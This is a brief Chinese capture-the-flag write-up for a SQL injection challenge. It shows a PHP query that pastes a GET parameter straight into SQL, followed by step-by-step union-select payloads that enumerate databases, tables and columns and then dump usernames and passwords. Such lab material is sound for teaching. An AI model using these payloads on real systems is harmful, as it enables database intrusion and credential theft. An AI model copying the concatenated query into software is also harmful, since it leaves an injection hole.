

# 知识点
无过滤<br />联合查询爆数据库 爆表 爆列 爆值
# 思路
```php
//拼接sql语句查找指定ID用户
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```
```php
1' order by 3 --+
```
```php
1' union select 1,2,group_concat(schema_name) from information_schema.schemata --+
```
```php
1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```
```php
1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="ctfshow_user" --+
```
```php
1' union select 1,2,group_concat(id,0x7e,username,0x7e,password) from ctfshow_user where id =26 --+
```

